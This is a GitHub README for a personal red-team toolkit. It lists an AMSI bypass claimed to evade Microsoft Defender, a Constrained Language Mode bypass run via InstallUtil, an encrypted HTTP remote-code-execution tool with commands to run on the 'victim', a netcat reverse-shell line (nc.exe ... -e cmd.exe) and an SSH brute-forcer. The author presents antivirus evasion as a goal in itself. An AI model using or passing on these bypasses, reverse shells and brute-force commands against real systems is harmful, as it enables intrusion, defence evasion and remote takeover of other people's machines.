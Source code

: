 # Some custom tools for redteaming
I prefer to write my own tool for my own use because of the following reasons:
- improve programming skills
- understand how the tool works
- easily bypass AV
 
You can use the tools in pentest or redteam work. If the tool is detected by AV, don't worry, edit the code a bit and then build again. :)

## List of my tools


### AMSI
---
Golang amsi bypass, currently undetected by Microsoft Defender and possibly other AV solutions
- Usage:
  - Download [amsi.exe](https://github.com/namcuongq/security/blob/main/amsi/amsi.exe) and upload to victim
  - Run amsi.exe and enjoy it.
####
  *Note: if you want to add add parameter to program or open any exe file with bypass amsi mode, You only need put them into file with name godpay in the same directory amsi.exe. Example godpay file:*
  ```
  powershell ipconfig
  or 
  C:\Users\Public\nc.exe 192.168.0.19 8080 -e cmd.exe
  ```
  
### Bypass-CLM
---

- This will build an executable which executes a Full Language Mode powershell session. This method will provide a full powershell session just like running powershell.exe, but not powershell.
- If AppControl is enabled, you can run it with InstallUtil.
- Download [bypass-clm](https://github.com/namcuongq/security/tree/main/bypass-clm) and open it with Visual Studio, then build it.
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U "bypass-clm.exe"
```

### Dir_Server
---
[dir_server](https://github.com/namcuongq/security/tree/main/dir_server) Simple directory listing in http-server like python http-simple-server. You can use it for download file.
```
dir_server [dir] [listen address]
```

### Forward_Tcp
---
[forward_tcp](https://github.com/namcuongq/security/tree/main/forward_tcp) Simple way to create a tunnel from special port to another. Tool like socat but usage very easy.

```
forward_tcp [src] [dst]
```

### NCC
---
Simple Remote Code Execution Tool via http or https which is normally not blocked and to the destination server, effectively bypassing the restrictions on firewall. It works like netcat but only for RCE purposes. All transmitted data is encrypted to avoid detection. It can work in 2 modes normal and reverse:
- normal 
  - In kali(server)
  ```
  ncc -l -s <kali ip>:<port>
  ```
  - In victim
  ```
  ncc -s <kali ip>:<port> -e
  ```
- reverse
  - In kali 
  ```
  ncc -s <victim ip>:<port>
  ```
  - In victim(server)
  ```
  ncc -l -s <victim ip>:<port> -e
  ```

### SSH_Brute
---
[ssh_brute](https://github.com/namcuongq/security/tree/main/ssh_brute) Small tool to help brute force ssh
```
ssh_brute -u <user> -p <password> -h <host>
ssh_brute -U <user file> -P <password file> -hH <host file>
```
  

